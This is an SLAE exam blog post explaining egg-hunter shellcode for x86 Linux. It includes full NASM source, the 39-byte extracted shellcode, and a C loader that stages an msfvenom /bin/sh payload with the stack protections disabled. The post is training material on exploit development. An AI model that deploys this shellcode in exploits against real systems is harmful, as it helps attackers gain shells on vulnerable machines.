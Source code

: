 ## SLAE Exam Assignment 3 - Creating an Egg-hunter shellcode

## Prologue
The third assignment for our SLAE Certification exam is creating an egg-hunter shellcode in such a way so as to make it's secondary payload configurable.

Egg-hunter remains an extremely important topic for study by exploitation analysts and rightfully so. 

So without any further ado, let's get down with it!

## So what is an egg-hunter anyway?
Imagine that you have found a buffer overflow exploit in a vulnerable software running in a remote machine but the buffer size or the space controlled by you is not nearly enough to fit a Bind/Reverse TCP shellcode :(

What do you do then?

Enter the Egg-hunter.

![Eggs](../assets/images/eggs.jpg "Eggs")

As many before me and also the ones who will be attempting this exam after me, there is one paper that stands out of all and is referenced by almost everyone perhaps because of it's simplicity and brilliance that is: [Safely Searching Process Virtual Address Space](https://github.com/upayansaha/SLAE-Code-Repository/blob/master/Assignment%203/egghunt-shellcode.pdf) by Skape.

I would recommend all the readers of this blog to read the paper first and then come back here.

I shall not discuss the paper in-depth in this blog-post. However, I shall mention some key concepts required for the analysis and implementation of an egg-hunter payload.
### Egg-hunter payload explained in a sentence
The egg-hunter is a shellcode usually optimized and small in size which is designed to find the final stage larger shellcode marked by an "egg"(4-8 bytes of data) and redirect execution flow to it once it finds it in the virtual address space.
### But how does it work?
The way the egg-hunter works is by iterating through the pages of memory and looking for the "egg" until its found.

Okay okay I get it but as far as I knew when a program tries to read unallocated memory in Linux, the program will crash throwing a `SIGSEGV` right?

Here comes Skape's out-of-the-box solution. He has devised a way to use the `access()` syscall to check whether a page of memory is accessible or not by using the memory address as argument and by checking the error-code(_0xf2 OR EFAULT_) returned by the syscall, we can determine whether the page is accessible or not. This enables us to scan the memory safely.

Needless to say, if the page is inaccessible then it should skip to the next page directly otherwise it should continue scanning the page looking for our "egg".
### One final note
One last important matter to discuss is what should we consider as this "egg" that we are talking about?

Some implementations of the egg-hunter dictate the condition that the egg itself must be an executable for the egg-hunter to transfer the execution flow to the secondary payload stored somewhere else in memory.

Also, a single instance(4 bytes) of the egg shall be present in the egg-hunter itself so as to enable it to find it in memory by comparison right? Now there might be a scenario where the egg-hunter accidentally finds itself in process's memory thinking it has found the egg when it actually hasn't. So we must keep the egg as something unique.

In light of these issues, Skape has devised an 8-byte executable egg by simply appending the egg to itself making it unique and easily identifiable in the memory. While this is not strictly mandatory but in order to avoid adding unnecessary overheads and complexities, we shall also be using the original "egg" for the purposes of this blog post.

## Egg-hunter Assembly code
Here's the full assembly source of the egg-hunter shellcode:

```nasm
; Filename: egg-hunter_shellcode.nasm
; Author: Upayan a.k.a. slaeryan
; SLAE: 1525
; Contact: upayansaha@icloud.com
; Purpose: This is a x86 Linux null-free egg-hunter shellcode implementing Skape's 
; first technique using access() syscall
; Compile with:
; ./compile.sh egg-hunter_shellcode
; Size of shellcode: 39 bytes


global _start

section .text
_start:

    mov ebx, 0x50905090    ; Moving the 4-byte egg to EBX register
    xor ecx, ecx           ; Clearing ECX register
    mul ecx                ; Clearing EAX and EDX

    ; Function to skip to next page
    turn_page:             
    or dx, 0xfff           ; Bitwise OR of DX value with 0xfff

    ; Function to check whether the following 8 bytes of memory page is accessible or not
    check_page:
    inc edx                ; Increment EDX to make it a multiple of 4096 [PAGE_SIZE]
    pushad                 ; To preserve the current register values in stack
    lea ebx, [edx+0x4]     ; Load the address of the next 8 bytes in EBX to check
    mov al, 0x21           ; Load Syscall value for access() = 0x21 OR 33 in EAX
    int 0x80               ; Executing access() syscall
    cmp al, 0xf2           ; Comparing the return value in AL to 0xf2 == EFAULT
    popad                  ; Restore the register values as we preserved in the stack
    jz turn_page           ; Jump to next page if we got EFAULT otherwise continue

    ; Now that we know the memeory is accessible, we will search for our target!
    cmp [edx], ebx         ; Check if we got the egg in [EDX]
    jnz check_page         ; If not zero - Egg not found! Check the next 8 bytes of the page otherwise if zero - we already found the first 4 bytes of the egg
    cmp [edx+0x4], ebx     ; Check the next 4 bytes [EDX+4] to confirm the kill
    jnz check_page         ; If not zero - Egg wasn't found, false positive! otherwise if zero - mission accomplished - egg found successfully!
    jmp edx                ; Transfer control to the secondary payload
```

There's not much to exaplain in this source as I have commented in-detail on almost every line of code. Note the various optimizations in various parts of the code to minimize the number of instructions as far as possible. 

Also, one important point to note is that the default `PAGE_SIZE` of Linux/x86 is `4kB` or `4096 bytes` which becomes `0x1000` in hex. This would introduce null-characters in our egg-hunter shellcode if we use it which is not exactly desirable. 

As a workaround for this problem, we perform bitwise OR operation on the current `DX` value with `4095` OR `0xfff` and increment `DX` by 1 in `check_page` function in a loop to align the pages properly and make it a multiple of `PAGE_SIZE` like  = 4096(4095or0xfff=4095 + 1), 8192(4096or0xfff=8191 + 1), 12288(8192or0xfff=12287 + 1) and so on...

This enables us to search through all the memory pages in an incremental fashion without skipping any and it's quite a clever trick devised by Skape!

## Egg-hunter shellcode
Let's compile the assembly source with the `compile.sh` script and then subject the ELF32 binary produced to the `converter.py` script to extract the shellcode.

Here's the egg-hunter shellcode:

`\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2`

Looks to be null-free and also the size comes as `39 bytes` as described by Skape.

## Staged shellcode loader
Here's the source of the staged shellcode loader which egg-hunter which in-turn loads the secondary payload(currently configured as a MSF execve /bin/sh payload):

```c
// Contact: upayansaha@icloud.com
// Purpose: This loader program has the secondary payload(shellcode) configurable.
// The length of both the payloads are printed and then the egg-hunter payload is 
// executed which in turn loads the secondary payload.
// Note: Don't forget to append the egg(\x90\x50\x90\x50\x90\x50\x90\x50) to the shellcode.
// Compile with:
// g++ -fno-stack-protector -z execstack staged_shellcode_loader.cpp -o staged_shellcode_loader


#include <stdio.h>
#include <string.h>

unsigned char egghunter[] = "\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";

unsigned char shellcode[] = "\x90\x50\x90\x50\x90\x50\x90\x50\xba\xec\xc4\x30\xdf\xdb\xd1\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
                            "\x0b\x31\x56\x15\x83\xee\xfc\x03\x56\x11\xe2\x19\xae\x3b\x87"
                            "\x78\x7d\x5a\x5f\x57\xe1\x2b\x78\xcf\xca\x58\xef\x0f\x7d\xb0"
                            "\x8d\x66\x13\x47\xb2\x2a\x03\x5f\x35\xca\xd3\x4f\x57\xa3\xbd"
                            "\xa0\xe4\x5b\x42\xe8\x59\x12\xa3\xdb\xde"; // CHANGE ME | Gen. using: msfvenom -p linux/x86/exec CMD=/bin/sh --arch x86 -f c -b "\x00"

int main(int argc, char* argv[])
{
    printf("Egg hunter length(Primary payload): %d\n", strlen((const char*)egghunter));
    printf("Shellcode length(Secondary payload): %d\n", strlen((const char*)shellcode)-8);
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

## A working demo of the egg-hunter shellcode:
Well all talk and no fun is bad which is why here's a demo of the egg-hunter shellcode which we made just now in action. Enjoy;)

<script id="asciicast-NtBMAHCYIw2BHzcL20bcYSJtS" src="https://asciinema.org/a/NtBMAHCYIw2BHzcL20bcYSJtS.js" async></script>
